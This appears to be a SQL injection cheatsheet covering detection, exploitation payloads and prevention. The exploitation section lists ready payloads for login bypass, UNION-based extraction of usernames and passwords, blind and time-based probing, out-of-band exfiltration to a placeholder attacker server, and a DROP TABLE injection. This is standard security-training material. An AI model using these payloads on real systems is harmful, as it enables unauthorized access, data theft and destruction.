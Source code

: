 # 🛡️ SQL Injection (SQLi) Cheatsheet

## 🎯 What is SQL Injection?
**SQL Injection (SQLi)** is a web security vulnerability that allows attackers to interfere with the queries an application makes to its database. By injecting malicious SQL statements, attackers can manipulate the application's database to:
- Access unauthorized data.
- Modify or delete data.
- Execute administrative operations.
- Compromise the application's logic.

---

## 🚩 How to Detect SQL Injection Vulnerabilities

1. **Manual Testing:**
   - Test inputs with special characters:
     ```sql
     ' OR 1=1--
     ' UNION SELECT null--
     ```
   - Observe unusual behavior, errors, or data leaks.

2. **Automated Tools:**
   - Use scanners like:
     - [SQLmap](https://sqlmap.org)
     - Burp Suite Intruder with SQL payloads.

3. **Indicators of Vulnerability:**
   - Database error messages revealing stack traces or SQL syntax errors.
   - Behavioral changes, e.g., login bypass or unexpected data in responses.

---

## 🛠️ Exploiting SQL Injection

### 1. **SQL Injection in WHERE Clause (Retrieving Hidden Data)**
- **Vulnerability:** Query structure may leak data:
  ```sql
  SELECT * FROM users WHERE username = 'admin' AND password = 'password';
  ```
- **Payload:**
  ```sql
  ' OR 1=1--
  ```
- **Effect:** The query always evaluates to true, granting access.

---

### 2. **Subverting Application Logic**
- **Login Bypass Example:**
  - Query:
    ```sql
    SELECT * FROM users WHERE username = 'user' AND password = 'pass';
    ```
  - Payload:
    ```sql
    ' OR 1=1--
    ```
  - Result: Bypasses login without valid credentials.

---

### 3. **SQL Injection UNION Attacks**
- Combine results from multiple SELECT queries to extract data.

#### Steps:
1. **Determine Column Count:**
   - Payload:
     ```sql
     ' UNION SELECT NULL, NULL--
     ```
   - Increment `NULL` placeholders until no error occurs.

2. **Find Columns with Useful Data Types:**
   - Payload:
     ```sql
     ' UNION SELECT 'text', NULL--
     ```
   - Replace `NULL` with text to identify text-compatible columns.

3. **Extract Data:**
   - Query to fetch sensitive information:
     ```sql
     ' UNION SELECT username, password FROM users--
     ```

---

### 4. **Blind SQL Injection**
- Occurs when no visible output or error messages are present.

#### Types:
1. **Conditional Responses:**
   - Payload:
     ```sql
     ' AND 1=1--
     ```
   - Observe behavioral differences for true/false conditions.

2. **Error-Based Blind SQLi:**
   - Exploit errors to extract data:
     ```sql
     ' AND (SELECT 1/(SELECT COUNT(*) FROM users))--
     ```

3. **Time-Based Blind SQLi:**
   - Introduce time delays to infer true/false:
     ```sql
     ' OR IF(1=1, SLEEP(5), 0)--
     ```

4. **Out-of-Band (OAST):**
   - Use DNS or HTTP requests to extract data:
     ```sql
     ' OR LOAD_FILE('\\\\attacker-server\\data')--
     ```

---

### 5. **Second-Order SQL Injection**
- Malicious input is stored and later executed during a separate query.
- Example:
  - Inject:
    ```sql
    '); DROP TABLE users;--
    ```
  - Trigger: Query executed on stored malicious input.

---

## 🔬 SQL Injection in Different Contexts

### 1. **Data Retrieval in Non-Oracle Databases**
- Query:
  ```sql
  SELECT table_name FROM information_schema.tables--
  ```
- Example to list columns:
  ```sql
  SELECT column_name FROM information_schema.columns WHERE table_name='users'--
  ```

### 2. **SQL Injection via XML Encoding**
- Exploit payloads bypassing filters:
  ```xml
  <username>&apos; OR 1=1--</username>
  ```

---

## 🔐 Preventing SQL Injection

### 1. **Parameterized Queries (Prepared Statements)**
- Always use parameterized queries instead of string concatenation.
- Example (Python):
  ```python
  cursor.execute("SELECT * FROM users WHERE username = %s AND password = %s", (username, password))
  ```

---

### 2. **Input Validation**
- Enforce strict input validation:
  - Disallow special characters (e.g., `';--`).
  - Validate input length and type.

---

### 3. **Use ORM Frameworks**
- Object-Relational Mapping (ORM) frameworks like SQLAlchemy reduce direct query handling risks.

---

### 4. **Escaping User Inputs**
- Use database-specific escaping mechanisms:
  - MySQL: `mysql_real_escape_string()`.
  - PHP PDO: `PDO::quote()`.

---

### 5. **Least Privilege Principle**
- Ensure the database account used by the application has minimal privileges:
  - No access to `DROP`, `ALTER`, or sensitive tables.

---

### 6. **Error Handling**
- Suppress database error messages:
  - Use generic error responses to avoid leaking SQL structure.

---

## 🛠️ Tools for SQL Injection Testing

| Tool        | Purpose                            | URL/Command                          |
|-------------|------------------------------------|--------------------------------------|
| SQLmap      | Automated SQLi exploitation        | [SQLmap](https://sqlmap.org)         |
| Burp Suite  | Manual SQLi payload testing        | [Burp](https://portswigger.net)      |
| jSQL        | Lightweight SQLi scanner          | [jSQL](https://github.com/ron190/jsql-injection) |
| sqlninja    | Exploits blind SQLi vulnerabilities | [sqlninja](http://sqlninja.sourceforge.net/) |
